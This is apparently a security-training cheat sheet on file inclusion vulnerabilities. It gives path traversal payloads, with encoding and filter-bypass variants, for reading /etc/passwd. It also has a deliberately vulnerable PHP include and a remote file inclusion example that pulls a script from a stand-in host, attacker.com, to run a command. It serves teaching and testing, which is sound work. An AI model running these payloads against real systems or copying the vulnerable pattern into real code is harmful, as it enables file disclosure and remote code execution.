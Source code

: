 # 📁 File inclusion

A file inclusion vulnerability is caused when a malicious user can access or upload unathorized files or directories.

There are three main types of file inclusion vulnerabilities:

- Path traversal
- Local File Intrusion (LFI)
- Remote File Inclusion (RFI)

## Path traversal

The attacker can access files in other directories of the server.
Usually, this type of attack is based on dot-dot-slash notation.

```bash
# basic dot-dot-slash notation
../../../etc/passwd

# ascii version
%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

# truncate string (PHP < 5.3.4) using null byte
# useful when something is appended like ".php"
../../../etc/passwd0x00
../../../etc/passwd%00
../../../etc/passwd\0

# if validation is done over the first match of the string 'etc' and what is right after
../../../etc/../etc/passwd

# if '/etc/passwd' is filtered
../../../etc/./passwd

# if '../' is removed
....//....//....//....//....//etc/passwd
```

## LFI

In Local File Intrusion (LFI) the attacker makes the server to include other local script files.

The main difference with path traversal is the execution of scripts decided by the attacker.

In PHP this could happen with functions like `include`, `required`, `include_once`, and `required_once`.

```php
<?php
  include("./pages/".$_GET["page"]);
?>
```

## RFI

In Remote File Inclusion (RFI) the attacker makes the server to include other script files from external sources.

For example, the function `include` can also import external sources:

```php
<?php
  include("http://attacker.com/inject.php");
?>
```

```php title="inject.php"
<?php
  print(exec("hostname"));
?>
```
